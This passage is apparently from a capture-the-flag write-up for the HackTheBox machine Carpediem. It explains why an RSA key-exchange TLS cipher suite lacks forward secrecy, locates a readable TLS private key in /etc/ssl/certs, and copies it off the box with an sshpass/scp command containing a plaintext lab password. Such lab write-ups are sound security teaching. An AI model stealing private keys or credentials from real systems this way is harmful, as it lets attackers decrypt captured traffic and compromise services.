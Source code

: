 [![image-20221129132128835](https://0xdfimages.gitlab.io/img/image-20221129132128835.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221129132128835.png)

Of interest in this case is the Cipher Suite,
`TLS_RSA_WITH_AES_256_CBC_SHA256`. Googling for this will show several sites
reporting is as a [weak cipher
suite](https://ciphersuite.info/cs/TLS_RSA_WITH_AES_256_CBC_SHA256/).

#### Find Key

The issue here is that RSA doesn’t support Perfect Forward Secrecy (PFS):

![image-20221129132219897](https://0xdfimages.gitlab.io/img/image-20221129132219897.png)

PSF allows for an attacker to get ahold of the private key (the website’s
certificate), and because of how the encryption is done, they still can’t
access the plaintext. Without PFS, anyone with the certificate can decrypt the
traffic.

Certificates are typically stored in `/etc/ssl/certs`. The private keys should
be kept where only root can read them. There are a ton of files in this
directory:

    
    
    hflaccus@carpediem:/etc/ssl/certs$ ls -l
    total 560
    lrwxrwxrwx 1 root root     23 Jun 20 12:04 002c0b4f.0 -> GlobalSign_Root_R46.pem
    lrwxrwxrwx 1 root root     45 Aug 24  2021 02265526.0 -> Entrust_Root_Certification_Authority_-_G2.pem
    lrwxrwxrwx 1 root root     36 Aug 24  2021 03179a64.0 -> Staat_der_Nederlanden_EV_Root_CA.pem
    lrwxrwxrwx 1 root root     27 Aug 24  2021 062cdee6.0 -> GlobalSign_Root_CA_-_R3.pem
    lrwxrwxrwx 1 root root     25 Aug 24  2021 064e0aa9.0 -> QuoVadis_Root_CA_2_G3.pem
    lrwxrwxrwx 1 root root     50 Aug 24  2021 06dc52d5.0 -> SSL.com_EV_Root_Certification_Authority_RSA_R2.pem
    lrwxrwxrwx 1 root root     54 Aug 24  2021 09789157.0 -> Starfield_Services_Root_Certificate_Authority_-_G2.pem
    lrwxrwxrwx 1 root root     15 Aug 24  2021 0a775a30.0 -> GTS_Root_R3.pem
    ...[snip]...
    

However, I’ll notice that most are symlinks. I’ll `grep` those out:

    
    
    hflaccus@carpediem:/etc/ssl/certs$ ls -l | grep -v '\->'
    total 560
    -rw-r--r-- 1 root root   1269 Apr  7  2022 backdrop.carpediem.htb.crt
    -rw-r--r-- 1 root root   1679 Apr  7  2022 backdrop.carpediem.htb.key
    -rw-r--r-- 1 root root 195453 Jun 20 12:05 ca-certificates.crt
    

There are two files related to the traffic I want to decrypt. I’ll download
them to my host:

    
    
    oxdf@hacky$ sshpass -p AuRj4pxq9qPk scp hflaccus@10.10.11.167://etc/ssl/certs/backdrop* .
    